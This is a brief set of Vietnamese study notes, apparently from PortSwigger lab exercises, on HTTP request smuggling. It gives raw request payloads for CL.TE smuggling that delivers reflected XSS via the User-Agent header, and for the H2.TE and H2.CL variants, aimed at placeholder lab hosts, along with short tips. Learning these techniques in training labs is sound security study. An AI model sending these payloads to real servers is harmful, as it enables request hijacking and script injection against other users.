 ```http
```

Content lenght 400 mà đoạn body chỉ 144 điều đó sẽ giúp nó đợi thêm 1 đoạn mới để ghép vào cho đủ rồi mới xử lí 

## HTTP request smuggling to deliver reflected XSS

context: lấy nội dung user-agent đưa vào comment

payload:

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

cần gửi vài lần

## H2.TE request smuggling

tắt update content length 

payload:

```http
POST /x HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
```

## H2.CL

payload:

```http
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: foo
Content-Length: 5

x=1
```
